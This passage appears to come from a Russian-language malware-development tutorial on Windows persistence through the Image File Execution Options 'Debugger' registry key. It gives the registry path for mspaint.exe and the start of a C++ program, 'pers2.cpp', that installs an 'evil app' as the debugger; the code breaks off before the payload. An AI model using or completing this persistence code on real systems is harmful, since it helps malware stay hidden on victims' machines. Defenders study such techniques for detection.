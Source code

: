 ![pers](./images/68/2022-09-12_02-26.png){width="80%"}    

> `WerFault.exe` - используется для отслеживания ошибок, связанных с ОС, функциями Windows и приложениями.    

### Тип IFEO через отладчик

Существует другая реализация IFEO через ключ `Debugger`. Нужно создать отладчик для целевого процесса в реестре:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

В этом случае требуется только, чтобы вредоносное приложение находилось в `System32`.    

Исходный код прост и выглядит следующим образом:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
```